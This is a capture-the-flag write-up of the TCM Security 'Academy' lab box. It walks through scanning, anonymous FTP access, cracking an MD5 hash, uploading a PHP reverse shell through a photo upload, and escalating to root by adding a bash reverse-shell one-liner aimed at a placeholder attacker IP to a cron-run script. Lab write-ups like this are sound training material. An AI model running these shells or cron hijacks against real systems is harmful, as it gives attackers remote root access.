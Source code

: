 # Academy Box - Provided by TCM Security

- Box has IP address `10.0.2.10`

## Scanning and Enumeration 
- Running nmap scan against target machine

    ![Nmap Results](./screenshots/2022-03-03-22-37-33.png)

- Interest findings 
  - Port `21/tcp - ftp - Anonymous FTP login allowed - vsftpd 3.0.3`
  - Port `22/tcp - SSH - OpenSSH 7.9p1 Debian` 
  - Port `80/tcp - http - Apache2 httpd 2.4.38`
  - OS details - `Linux 4.15 | 5.6`

- Since I found port `80` open, running `nikto` against target 
  
  ![Nikto results](./screenshots/2022-03-03-22-50-28.png)

- Also ran `Disbuster` 
  
  ![Dirbuster](./screenshots/2022-03-03-23-16-19.png)


## Research 
- `Anonymous FTP login allowed (FTP code 230)` was interesting in the results. 
  - Found this site - [Anonymous Login](https://vk9-sec.com/anonymous-login/)

## Exploitation

- Using `auxiliary/scanner/ftp/anonymous` module to detect anonymous FTP access

    ![Anonymous FTP](./screenshots/2022-03-03-22-56-35.png)
    
    - Results show anonymous login has `READ` permissions

- Used `anonymous` user to connect to FTP target machine 

    ![FTP Anonymous Connection](./screenshots/2022-03-03-23-01-59.png)

- I was able to get the `note.txt` from the target. These are the contents of it

    ![note.txt contents](./screenshots/2022-03-03-23-05-06.png)

- Grabbed the hash from the file and used `hash-identifier`, determined it was an `MD5` hash 

    ![hash-identifier](./screenshots/2022-03-03-23-09-19.png)

- Used `hashcat` to crack the hash which turned out to be `student`

    ![Hashcat](./screenshots/2022-03-03-23-15-16.png)

- Grabbed the Registration number from `note.txt` and the cracked password to login. 
- Once logged in was prompted to change password, so I went ahead and did that. 

  ![Logged in](./screenshots/2022-03-03-23-20-58.png)

- Used a [`php-reverse-shell`](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by uploading it to the site using the photo upload 

  ![Uploaded File](./screenshots/2022-03-04-17-14-33.png)

- Set `netcat` to listen on the port the exploit uses 

  ![Popped Shell](./screenshots/2022-03-04-17-14-09.png)


## Privilege Escalation 
- Downloaded `linpeas.sh` and put it in a transfer folder. 
- Then used python to host a web server and then did `wget` on the victim machine 

  ![Attacker Web server](./screenshots/2022-03-04-17-26-57.png)

  ![Victim machine](./screenshots/2022-03-04-17-27-07.png)

- Ran `linpeas.sh` on the victim machine
- Found user `grimmie` and a password - was able to ssh using these credentials 

  ![SSH connection](./screenshots/2022-03-04-17-51-00.png)

- Found file `/home/grimmie/backup.sh` - and figured out it runs every minute 
- Added a bash reverse shell one-liner - `bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1`
- Set netcat to listen on port 

  ![Reverse Shell](./screenshots/2022-03-04-18-08-33.png)

- Executes as `root` and pops a `root` shell on the attacker machine 

  ![Root Shell](./screenshots/2022-03-04-18-11-27.png)

- Found `flag.txt`

  ![flag.txt](./screenshots/2022-03-04-18-12-52.png)